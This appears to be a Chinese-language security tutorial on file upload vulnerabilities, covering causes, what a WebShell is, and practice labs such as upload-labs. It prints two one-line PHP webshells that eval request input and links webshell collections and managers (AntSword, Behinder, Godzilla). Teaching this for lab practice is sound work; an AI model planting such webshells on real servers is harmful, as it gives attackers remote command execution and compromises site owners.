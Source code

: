 # 文件上传漏洞

## 基本概念

文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。这种攻击方式是最为直接和有效的，“文件上传” 本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。    

如果服务器配置不当或者没有进行足够的过滤，Web 用户就可以上传任意文件，包括恶意脚本文件，exe 程序等等，这就造成了文件上传漏洞。

## 漏洞的成因

1、服务器**配置不当**

2、Web 应用开放了文件上传功能，没有对上传的文件做**足够的限制和过滤**。

3、在程序开发部署时，没有考虑到系统的特性或组件的漏洞，从而导致限制被绕过。漏洞危害上传漏洞最直接的威胁就是上传任意文件，包括恶意脚本、程序等。直接上传后门文件，导致网站沦陷。通过恶意文件，利用其他漏洞拿到管理员权限（提权），导致服务器沦陷。

通过文件上传漏洞获得的网站后门，叫 `WebShell`。

**WebShell** 是一个网站的后门，也是一个命令解释器。通过Web 方式（HTTP 协议）通信（传递命令消息），并且继承了Web 用户的权限。

**WebShell** 从本质上讲，就是服务器端可运行的脚本文件，后缀名通常为

```
.php   
.asp
.aspx
.jsp
...
```

**WebShell** 接收来自于Web 用户的命令，然后在服务器端执行

## Webshell木马

### 小马

一句话木马，需要蚁剑配合

常用小马：

```
<?=@eval($_REQUEST['ccc'])?>
<?php @eval($_REQUEST['ccc'])?>
```

三大功能：文件管理、虚拟终端、数据库管理

### 大马

代码量比较大，与小马对应

### 马场

https://github.com/backlion/webshell

### 常用webshell管理器

中国蚁剑

https://www.yuque.com/antswordproject/antsword

冰蝎

https://github.com/rebeyond/Behinder

哥斯拉

https://github.com/BeichenDream/Godzilla

## 实战练习

推荐`upload-labs`靶场 基本覆盖了 常见的文件上传漏洞绕过姿势

项目地址

https://github.com/c0ny1/upload-labs

wp推荐 

https://wiki.ckcsec.cn/web/range/upload-labs%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.html

除此之外还推荐另外一款国光师傅开发的 也还不错

https://github.com/sqlsec/upload-labs-docker

在实战中探索文件上传漏洞的乐趣吧！